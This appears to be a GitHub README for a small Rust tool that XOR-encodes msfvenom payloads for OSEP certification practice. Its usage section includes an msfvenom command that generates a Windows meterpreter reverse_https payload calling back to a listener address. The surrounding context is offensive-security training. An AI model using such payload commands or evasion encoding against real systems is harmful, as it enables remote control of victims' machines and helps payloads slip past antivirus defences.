 # encoder-decoder

This is my tool for XOR encoding msfvenom payloads for practice in the OSEP. The tool either accepts a premade key or randomly generates (and outputs) a key of equal size to the inputted payload.

Eventually I'll add decoding functionality

[![License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT)

## Installation

**From Source**:

```bash
git clone https://github.com/Raznoo/encoder-decoder.git
cd encoder-decoder

# Build the project
cargo build --release

# The executable will be located in target/release/
```

### Encoding

```
msfvenom -p windows/meterpreter/reverse_https LPORT=443 LHOST=192.168.45.155 -f csharp -o raw_payload.cs

encoder-decoder encode -i raw_payload.cs -o encrypted_payload.cs

cat encrypted_payload.cs && key.txt
```

### Decoding
TODO
